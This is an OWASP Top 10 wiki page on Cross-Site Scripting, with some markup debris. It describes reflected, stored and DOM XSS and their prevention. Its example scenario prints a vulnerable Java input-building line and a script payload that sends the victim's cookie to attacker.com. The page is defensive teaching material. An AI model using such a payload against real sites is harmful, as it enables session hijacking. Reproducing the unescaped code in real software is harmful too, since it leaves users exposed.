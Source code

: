 `   <td colspan=2 ``>`

Automated tools can detect and exploit all three forms of XSS, and there
are freely available exploitation frameworks.

</td>

`   <td colspan=2  ``>`

`XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.`
`Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. `

</td>

`   <td colspan=2  ``>`

`The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. `

</td>

There are three forms of XSS, usually targeting users' browsers:

  - <b>Reflected XSS</b>: The application or API includes unvalidated
    and unescaped user input as part of HTML output. A successful attack
    can allow the attacker to execute arbitrary HTML and JavaScript in
    the victim’s browser. Typically the user will need to interact with
    some malicious link that points to an attacker-controlled page, such
    as malicious watering hole websites, advertisements, or similar.
  - <b>Stored XSS</b>: The application or API stores unsanitized user
    input that is viewed at a later time by another user or an
    administrator. Stored XSS is often considered a high or critical
    risk.
  - <b>DOM XSS</b>: JavaScript frameworks, single-page applications, and
    APIs that dynamically include attacker-controllable data to a page
    are vulnerable to DOM XSS. Ideally, the application would not send
    attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA
bypass, DOM node replacement or defacement (such as trojan login
panels), attacks against the user's browser such as malicious software
downloads, key logging, and other client-side attacks.

Preventing XSS requires separation of untrusted data from active browser
content. This can be achieved by:

  - Using frameworks that automatically escape XSS by design, such as
    the latest Ruby on Rails, React JS. Learn the limitations of each
    framework's XSS protection and appropriately handle the use cases
    which are not covered.
  - Escaping untrusted HTTP request data based on the context in the
    HTML output (body, attribute, JavaScript, CSS, or URL) will resolve
    Reflected and Stored XSS vulnerabilities. The <u>[OWASP Cheat Sheet
    'XSS
    Prevention'](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")</u> has
    details on the required data escaping techniques.
  - Applying context-sensitive encoding when modifying the browser
    document on the client side acts against DOM XSS. When this cannot
    be avoided, similar context sensitive escaping techniques can be
    applied to browser APIs as described in the <u>[OWASP Cheat Sheet
    'DOM based XSS
    Prevention'](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink").
  - Enabling a <u>[Content Security Policy
    (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)</u> as
    a defense-in-depth mitigating control against XSS. It is effective
    if no other vulnerabilities exist that would allow placing malicious
    code via local file includes (e.g. path traversal overwrites or
    vulnerable libraries from permitted content delivery networks).

<b>Scenario \#1</b>: The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping: <b><span style="color:red;"> (String) page += "\<input
name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'\>"; </span></b>

The attacker modifies the ‘CC’ parameter in the browser to:
<b><span style="color:red;"> '\>

<script>

document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie

</script>

'. </span></b> This attack causes the victim’s session ID to be sent to
the attacker’s website, allowing the attacker to hijack the user’s
current session.

<b>Note</b>: Attackers can use XSS to defeat any automated Cross-Site
Request Forgery (CSRF) defense the application might employ.

  - <u>[OWASP Proactive Controls: Encode
    Data](OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016 "wikilink")</u>
  - <u>[OWASP Proactive Controls: Validate
    Data](OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016 "wikilink")</u>
  - <u>[OWASP Application Security Verification Standard:
    V5](:Category:OWASP_Application_Security_Verification_Standard_Project "wikilink")</u>
  - <u>[OWASP Testing Guide: Testing for Reflected
    XSS](Testing_for_Reflected_Cross_site_scripting_\(OTG-INPVAL-001\) "wikilink")</u>
  - <u>[OWASP Testing Guide: Testing for Stored
    XSS](Testing_for_Stored_Cross_site_scripting_\(OTG-INPVAL-002\) "wikilink")</u>
  - <u>[OWASP Testing Guide: Testing for DOM
    XSS](Testing_for_DOM-based_Cross_site_scripting_\(OTG-CLIENT-001\) "wikilink")</u>
  - <u>[OWASP Cheat Sheet: XSS
    Prevention](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")</u>
  - <u>[OWASP Cheat Sheet: DOM based XSS
    Prevention](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")</u>
  - <u>[OWASP Cheat Sheet: XSS Filter
    Evasion](XSS_Filter_Evasion_Cheat_Sheet "wikilink")</u>
  - <u>[OWASP Java Encoder
    Project](OWASP_Java_Encoder_Project "wikilink")</u>

<!-- end list -->

  - <u>[CWE-79: Improper neutralization of user supplied
    input](https://cwe.mitre.org/data/definitions/79.html)</u>
  - <u>[PortSwigger: Client-side template
    injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)</u>